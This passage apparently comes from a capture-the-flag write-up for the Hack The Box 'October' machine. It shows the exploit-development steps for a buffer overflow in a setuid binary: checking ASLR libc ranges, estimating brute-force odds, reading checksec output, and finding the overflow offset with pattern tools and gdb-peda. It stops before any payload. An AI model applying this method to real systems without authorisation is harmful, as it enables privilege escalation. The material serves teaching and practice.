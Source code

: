 ```bash
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7564000)
www-data@october$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75ac000)
www-data@october$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75de000) 
```
Even if the ASLR in on, the libc address is only chaning from 0xb7500000 to 0xb76ff000. 

5 -> 6 gives 1 bit and 00->ff gives 8 bits which means only 9 bits are changing everytime.

2^9=512, which means we have 1 in 512 chance of guessing the right address or 1 - (511/512)^1 = 0.2% chance of success.

But if I try for like 1000 times:  1 - (511/512)^1000 = 85.84% chance of success.

This gets to 99.99% if I try for something like 5000 times.

Looking for additional protections:
```bash
$ checksec ovrflw
[*] '/root/HTB/October/privesc/ovrflw'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
NX means that I can’t run shellcode from the stack, which is where I can write.
## Finding offset
Creating a pattern
```bash
$ pattern_create.rb -l 150
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
```
Finding the RIP address
```bash
$ dmesg | tail -n 2
[153611.455267] ovrflw[225760]: segfault at 64413764 ip 0000000064413764 sp 00000000ffc8a040 error 14 in libc-2.31.so[f7d92000+1d000]
[153611.455276] Code: Unable to access opcode bytes at RIP 0x6441373a.
```
Finding the offset 
```bash
$ pattern_offset.rb -q 0x6441373a
[*] No exact matches, looking for likely candidates...
[+] Possible match at offset 112 (adjusted [ little-endian: -42 | big-endian: 652758 ] ) byte offset 0
```

OR 
### Using gdb-peda
Creating a pattern
```bash
$ gdb -q ./ovrflw
Reading symbols from ./ovrflw...
(No debugging symbols found in ./ovrflw)
gdb-peda$ pattern_create 150
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAA'
```
Finding the RIP address
```bash
gdb-peda$ run 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAA'
```